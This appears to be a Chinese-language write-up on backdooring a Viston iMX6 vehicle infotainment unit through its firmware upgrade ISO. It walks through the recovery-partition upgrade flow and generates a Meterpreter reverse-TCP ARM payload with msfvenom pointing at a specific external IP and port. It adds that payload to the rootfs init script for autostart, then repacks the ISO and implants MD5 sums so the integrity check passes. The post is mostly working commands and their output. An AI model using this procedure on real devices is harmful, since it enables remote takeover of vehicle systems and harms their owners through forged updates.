


前言
固件目录如下，分为三个目录：APP、SOC、MCU。也就是应用、核心板、底板。APP用于升级导航地图和语音识别库数据，MCU目录用于更新MCU固件，包括底板和仪表。SOC目录用于升级核心板系统。version.txt用于验证版本。通过逆向升级程序，发现没有其他签名校验，但是篡改ISO无法升级，于是有了下文。

升级过程
在Viston的iMX6平台，会存在一个“恢复分区”，专门用于升级系统。
首先修改启动设置，直接访问设备节点，让U-Boot下一次从分区2启动。
echo 2 > /sys/devices/soc0/soc.0/2100000.aips-bus/2198000.usdhc/mmc_host/mmc2/mmc2:0001/boot_config
启动之后，会格式化并挂载原系统分区。
mkfs.ext3 -F /dev/mmcblk2p2
mount -t ext3 -o rw /dev/mmcblk2p2 /tmp/mmcblk2p12
随后挂载ISO镜像
/bin/mount -t iso9660 -o exec,loop /tmp/mnt/8644_8005_3BFD62ABB2EC3783_0/upgrade-ring.iso /tmp/isofs
将rootfs解压到目标分区
tar xvf /tmp/isofs/rootfs.tar -C /tmp/mmcblk2p12
打包rootfs
生成ARMEB平台后门
$ msfvenom -p linux/armle/meterpreter/reverse_tcp LHOST=206.189.68.130 LPORT=54444 -f elf -o linux_armle.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: armle from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 260 bytes
Final size of elf file: 344 bytes
Saved as: linux_armle.elf
添加开机自启动
echo "/bin/linux_armle.elf &" >> ./etc/init.d/rcS
注意事项，这里不能保留权限，否则会造成系统无法开启。
tar -cf ../rootfs.tar ./*
ISO-9660
ISO-9660是CDROM的标准，定义了CDROM的文件结构。Joliet是ISO-9660的扩展，目前有三个等级，Level 1 与DOS兼容，Level 2支持长文件名，但不支持单个大于2GB的文件。Level 3支持单文件大小达到8TB。
UDF
UDF(Universal Disk Format)统一光盘格式，采用标准的封装写入技术(Packet Writing, PW)，可以将CD-R当做硬盘，支持2GB以上大小文件。兼容性不如ISO 9660
ISO MD5

为防止ISO损坏，在ISO文件的头部，有MD5数据，但是用UltraISO打包不会产生这种数据。 首先查看ISO信息，可以看到使用ISO 9660 Joliet Level 3的标准.
$ isoinfo -d -i upgrade-ring.raw.iso
CD-ROM is in ISO 9660 format
System id: LINUX
Volume id: CDROM
Volume set id:
Publisher id:
Data preparer id:
Application id: GENISOIMAGE ISO 9660/HFS FILESYSTEM CREATOR (C) 1993 E.YOUNGDALE (C) 1997-2006 J.PEARSON/J.SCHILLING (C) 2006-2007 CDRKIT TEAM
Copyright File id:
Abstract File id:
Bibliographic File id:
Volume set size is: 1
Volume set sequence number is: 1
Logical block size is: 2048
Volume size is: 488066
Joliet with UCS level 3 found
Rock Ridge signatures version 1 found
首先使用mkisofs打包ISO目录
mkisofs -h
...
-J, -joliet 生成Joliet目录信息
-T, -translation-table 支持长文件名
...
mkisofs -J -T -v -o upgrade-ring.iso iso/
打包完ISO之后，使用implantisomd5植入MD5。
$ implantisomd5 upgrade-ring.iso
Inserting md5sum into iso image...
md5 = e1914b1bf902a63244e3bb810823e6b2
Inserting fragment md5sums into iso image...
fragmd5 = 5126d7bcb6459898d56ca8822c5e7bdd45b15d5a9ed6c1f7351a55d18ae8
frags = 20
Setting supported flag to 0
最后校验合法性
$ checkisomd5 upgrade-ring.iso
upgrade-ring.raw.iso: e1914b1bf902a63244e3bb810823e6b2
Fragment sums: 5126d7bcb6459898d56ca8822c5e7bdd45b15d5a9ed6c1f7351a55d18ae8
Fragment count: 20
Supported ISO: no
Press [Esc] to abort check.
Checking: 100.0%
The media check is complete, the result is: PASS.
It is OK to use this media.